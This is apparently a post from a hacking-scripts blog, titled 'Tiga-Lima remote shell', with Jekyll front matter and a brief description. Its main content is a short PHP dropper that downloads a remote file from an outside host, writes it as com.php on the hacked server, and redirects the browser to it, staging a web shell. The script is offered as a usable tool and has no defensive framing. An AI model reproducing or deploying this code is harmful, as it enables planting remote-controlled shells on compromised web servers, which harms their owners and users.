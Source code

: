 ```yaml
---
id: 62
title: Tiga-Lima remote shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=62
permalink: /tiga-lima-remote-shell/
categories:
  - PHP
  - Tiga-Lima
tags:
  - PHP
  - Tiga-Lima
---
```

This is a very simple script that attempts to write the contents of a remote file (presumably some sort of hack script) to a local file on the hacked server.

### Tiga-Lima remote shell source code

{% highlight php %}<?php
$namafile="com.php";
$file = fopen($namafile ,'w+');
$fa=file_get_contents('http://www.aliggroup.com/upload/log.txt');
$write = fwrite ($file ,$fa);
header ("location:com.php");
?>
{% endhighlight %}